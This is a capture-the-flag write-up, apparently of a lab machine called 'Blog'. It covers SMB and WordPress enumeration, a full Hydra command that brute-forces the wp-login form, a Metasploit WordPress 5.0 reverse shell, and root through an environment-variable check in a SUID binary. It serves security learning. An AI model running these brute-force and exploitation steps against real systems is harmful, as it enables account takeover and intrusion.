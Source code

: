 # Blog Write-up

## Initial Enumeration

The only initial information provided is an IP address. We begin by conducting an Nmap scan to identify open ports and services:

```bash
nmap -sC -sV -v {target_ip}
```

### Scan Results:

![image](https://github.com/user-attachments/assets/d799ac5f-9d06-4d92-92ae-9ad28dc490ed)

## SMB Enumeration

Taking a look into the SMB ports for some files may yield some information.

```bash
smbclient -L {target_ip}
```

![image](https://github.com/user-attachments/assets/b82b7277-6869-4be6-8481-f89680e62122)

No information is taken from any of the files but the tswift and check-this file are pretty funny.

The only thing of value is a possible username with Billy. Moving onto the webpage for some continued exploit searching.


## HTTP enumeration

Given a simple blog page some important information is given. The webpage is a using WordPress which can be enumerated by wpscan, a scanner specifically designed to enumerate wordpress.

```bash
wpscan --url blog.thm -e u
```

Cutting out the unimportant information, there is two users found and a specific version of WordPress (5.0).

Usernames:
1. kwheel
2. bjoel

![image](https://github.com/user-attachments/assets/f9ed6906-e698-48d6-a3fd-c8adcf43d15e)

## Directory Enumeration

With a basic gobuster scan, a login page is discovered, brute forcing with some credentials is an excellent option here if rate limiting isn't implemented.

```bash
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u blog.thm -x .txt,.php -t 64
```

![image](https://github.com/user-attachments/assets/2c12f4d6-6b36-45a3-a3d2-c2dbcabce2c8)

### Password Cracking

Using Hydra to bruteforce kwheel's password.

```bash
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -v -f
```

![image](https://github.com/user-attachments/assets/bb03a490-867a-421b-9194-4ec660e8a4fd)

Now that credentials have been obtained, access to the edit the page is gained.


### Word Press Exploitation

Since WordPress is using version 5.0, metasploit has a exploit ready to go for a reverse shell.

![image](https://github.com/user-attachments/assets/9b9948f9-f0d5-4f96-9143-db841e2dc691)

With the payload configured, running it gives a meterpreter shell, which I prefer to turn into a normal command shell.
### First Flag

Into the home directory of bjoel, user.txt is a trap! Fool me once or something but I will take you down.

![image](https://github.com/user-attachments/assets/cfd27844-8992-4326-af02-9489069bb409)

## Privilege Escalation

 suid permissions.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
One binary in particular is interesting, /usr/sbin/checker. Using ltrace to track what library calls are made, we see that admin env variable is checked. What if we set it to 1?

![image](https://github.com/user-attachments/assets/73008bbe-a62b-4ebf-87d3-76d304d982d7)

![image](https://github.com/user-attachments/assets/3f2cc210-2016-4650-8a07-2343e3b137e4)

And with that we've obtained root privileges!

### Actual First Flag and Root Flag

![image](https://github.com/user-attachments/assets/28e9dadc-7d77-4a52-9e30-8eb28de3ea52)

### Notes:
- Enumeration of WordPress, could've been better but it was my first time using wpscan which is a great tool and something I will be implementing into my repertoire.
